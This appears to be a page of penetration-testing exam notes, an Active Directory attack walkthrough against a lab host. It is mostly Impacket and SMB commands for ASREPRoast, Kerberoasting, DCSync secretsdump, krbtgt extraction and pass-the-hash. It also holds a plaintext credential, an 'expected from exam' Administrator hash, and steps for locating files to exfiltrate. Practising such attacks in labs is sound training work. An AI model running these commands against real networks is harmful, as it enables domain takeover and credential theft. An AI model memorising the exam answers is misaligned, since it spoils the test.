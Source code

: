### Kerberos Attacks
```bash
# ASREPRoast (if applicable)
impacket-GetNPUsers <domain>/<username> -no-pass -dc-ip 10.10.10.100

# Kerberoasting
impacket-GetUserSPNs <domain>/<username>:<password> -dc-ip 10.10.10.100 -request

# DCSync attack (if high privileges)
impacket-secretsdump <domain>/<username>:<password>@10.10.10.100

# Extract krbtgt hash
impacket-secretsdump <domain>/<username>:<password>@10.10.10.100 | grep krbtgt
```

### SMB Enumeration
```bash
# SMB shares enumeration
smbclient -L //10.10.10.100 -U <username>%<password>
smbmap -H 10.10.10.100 -u <username> -p <password>

# Access shares
smbclient //10.10.10.100/C$ -U <username>%<password>
smbclient //10.10.10.100/ADMIN$ -U <username>%<password>
```

### Credential Extraction
```bash
# Using sync_user credentials
impacket-secretsdump <domain>/sync_user:Summer@2025@10.10.10.100

# Look for Administrator hash
# Expected from exam: 3d15cb1141d579823f8bb08f1f23e316

# Pass-the-hash
impacket-psexec -hashes :3d15cb1141d579823f8bb08f1f23e316 Administrator@10.10.10.100
```

---

## Phase 8: Data Exfiltration

### File System Navigation
```bash
# Navigate to Administrator desktop
cd C:\Users\Administrator\Desktop

# List files
dir
ls -la

# Look for secret.xml
find . -name "secret.xml" -type f
dir /s secret.xml

# Alternative locations
cd C:\Users\Administrator\Documents
cd C:\temp
cd C:\Windows\Temp
```
